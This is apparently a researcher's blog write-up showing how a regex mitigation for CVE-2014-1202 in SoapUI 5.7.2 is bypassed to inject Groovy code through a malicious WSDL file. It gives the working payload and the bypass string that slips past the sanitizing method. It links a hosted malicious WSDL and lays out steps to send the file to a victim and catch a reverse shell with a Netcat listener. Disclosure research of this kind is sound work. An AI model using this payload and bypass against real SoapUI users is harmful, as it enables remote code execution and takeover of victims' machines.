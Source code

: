 # Arbitrary Code Injection Via Groovy Script Parser (SoapUI)


**Severity:** High

**Exploitability:** Medium

**Function:** XML/WSDL

Hello everyone,

In this blog, I will explain how I bypassed the mitigation for **CVE-2014-1202** using instrumentation.

While reviewing the **CVE-2014-1202** vulnerability, I noticed that in SoapUI, WSDL can be loaded from a URL or file. However, older versions of SoapUI do not have validation when loading XML/WSDL with a Groovy script, which can lead to a code injection issue.

---

### What is Groovy.

Groovy is **a scripting language for the Java platform**. It's a superset of Java, which means Java programs can run in the Groovy environment.

While Groovy can be a powerful tool, it is crucial to use it responsibly and securely. Always ensure that input validation and sanitization measures are in place to prevent code injection vulnerabilities.

---

To reproduce this issue, I attempted it with the latest version of SoapUI (5.7.2). 

You can download it from the following link: [**](https://www.soapui.org/downloads/latest-release/)https://www.soapui.org/downloads/latest-release/**

Also i did project setup and instrument using **Fusion Lite Project Manager.**

Download Malicious WSDL file of previous payload:  https://raw.githubusercontent.com/spookhorror/SOAPUICodeInjection/main/OLDWSDL.xml

To load WSDL please follow below step:
1. Click on SOAP and append endpoint of XML file. 
2. Click on “OK”

![image](https://github.com/spookhorror/Blogs/assets/67255423/5a9ef37f-3520-4d14-a939-7794ba50275f)

As we can see application is removing malicious content. Observe the logs.

```java
${=Runtime.getRuntime().exec('calc.exe')};
```
![image](https://github.com/spookhorror/Blogs/assets/67255423/6a06928f-619a-4108-af14-f45fb04986eb)
![image](https://github.com/spookhorror/Blogs/assets/67255423/1e461b97-8ece-4d81-a425-909c6e955829)

# Payloads and Regex Bypass:

In **Fusion Lite Analyzer** we can see that application has Class called **Tools** which is responsible for removing malicious content because it has regex functionality which will remove malicious content.

![image](https://github.com/spookhorror/Blogs/assets/67255423/7d528050-6c32-4f6e-b203-d692a62eb83f)
![image](https://github.com/spookhorror/Blogs/assets/67255423/2db890e8-4e51-40e3-a667-94b21828bd0e)

After trying multiple methods to bypass regex, I have created a payload where the regex only removes a specific string payload

I.e

Old Payload
![image](https://github.com/spookhorror/Blogs/assets/67255423/beda9bdd-7f6f-4782-b381-73d69975a3b3)

New Payload
![image](https://github.com/spookhorror/Blogs/assets/67255423/a61d0b7c-6d73-43ec-b58c-a8b99aaae5c7)

```java
$${}{=Runtime.getRuntime().exec('calc.exe')}; to ${=Runtime.getRuntime().exec('calc.exe')};
​
```

As we can see, the regex matches only specific characters from the payload. Therefore, the method below will remove only a specific substring from the payload and return the actual payload.
```java
public static String removePropertyExpansions(String definitionUrl, String definition) {
        Matcher matcher = PROPERTY_EXPANSION_CONTAINS_PATTERN.matcher(definition);
        while (matcher.find()) {
            log.warn(messages.get("Tools.Warning.PropertyExpansionRemovedFromDefinition", definitionUrl, matcher.group()));
        }
        return matcher.replaceAll("");
    }
}


com.eviware.soapui.support.Tools : java.lang.String removePropertyExpansions(java.lang.String definitionUrl, java.lang.String definition)
​
```
We need to update payload in WSDL file and again load in SoapUI.
Updated XML:

![image](https://github.com/spookhorror/Blogs/assets/67255423/519aad05-e3e8-4fd4-9656-96096c7ad917)
![image](https://github.com/spookhorror/Blogs/assets/67255423/32e12d26-548b-4a93-af1b-4786574e5cbf)

Click on 'Send Request' and observe the execution of the calculator.

![image](https://github.com/spookhorror/Blogs/assets/67255423/219ad647-12d5-43bb-a678-57fa14fa27a3)

With updated payload we can see that below method has removed only this ${} content from payload and return updated string as.

Updated string:

```java
$${}{=Runtime.getRuntime().exec('calc.exe')}; to ${=Runtime.getRuntime().exec('calc.exe')};
```

Method:

```java
com.eviware.soapui.support.Tools : java.lang.String removePropertyExpansions(java.lang.String definitionUrl, java.lang.String definition)
```
![image](https://github.com/spookhorror/Blogs/assets/67255423/416aaab6-9ace-440f-abe1-3b36f406ef74)

Logs:
![image](https://github.com/spookhorror/Blogs/assets/67255423/53ea39b0-a44c-44db-8512-0252463551fc)



Here is updated content of request which contain malicious groovy script.
![image](https://github.com/spookhorror/Blogs/assets/67255423/a2927359-020a-483a-9c87-a522f3f33c3b)


The following method will execute a Groovy script that contains malicious code.

```java
groovy.lang.GroovyShell : groovy.lang.Script parse(java.lang.String)
```

![image](https://github.com/spookhorror/Blogs/assets/67255423/99fad30e-b7f8-45e7-8678-b1a36ae149f5)


# Exploitation Steps

1. Host malicous WSDL and share it URL/FILE to Victim.
   For example.
![image](https://github.com/spookhorror/Blogs/assets/67255423/9fb8e8d8-1ede-4548-b547-f3195bed1e13)

2. Initiate a Netcat listener on the attacker's machine.

![Screenshot 2023-12-09 171052](https://github.com/spookhorror/Blogs/assets/67255423/b635643b-722e-48b5-b94e-9dccda30255a)

3. Load the malicious WSDL on the victim's machine and execute the request.

![Screenshot 2023-12-09 171057](https://github.com/spookhorror/Blogs/assets/67255423/9d671154-6e3f-4ccd-b9e0-f72fd4fd6a2e)

![Screenshot 2023-12-09 171159](https://github.com/spookhorror/Blogs/assets/67255423/e1076ccd-6bbb-4e05-b6e1-7499f94006b6)

Observe the reverse shell on the attacker's machine. It is possible to obtain access to the victim's shell simply by providing a malicious WSDL via URL or file.
